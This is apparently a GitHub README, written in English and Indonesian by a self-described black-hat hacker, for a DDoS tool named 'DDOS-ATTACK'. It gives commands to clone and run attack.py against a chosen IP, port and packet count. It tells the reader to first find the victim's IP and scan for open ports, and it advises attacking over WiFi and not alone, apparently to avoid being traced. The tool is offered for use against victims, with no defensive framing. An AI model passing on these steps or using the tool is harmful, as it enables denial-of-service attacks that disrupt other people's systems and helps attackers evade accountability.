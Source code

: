 ##############################################
#              DDOS-ATTACK                   #
#           Mr.scriptkiddie004               #
#               ----------                   #
#        Indonesia Black Hat Hacker          #
##############################################

#install
git clone https://github.com/Bangsatlu/DDOS-ATTACK
cd DDOS-ATTACK
chmod +x attack.py
python2 attack.py

NB:Sebelum menggunakan Tool ini sebaiknya cari dulu alamat IP Korban dan scan dimana port yang terbuka

lalu ketikkan:
python2 attack.py ip port packet

contoh:
python2 attack.py 192.168.xx.xx 80 100000


INGAT!! JANGAN MELAKUKAN SERANGAN DDOS TANPA MENGGUNAKAN JARINGAN WIFI DAN SEBAIKNYA JANGAN MELAKUKAN SERANGAN SENDIRIAN!!!!
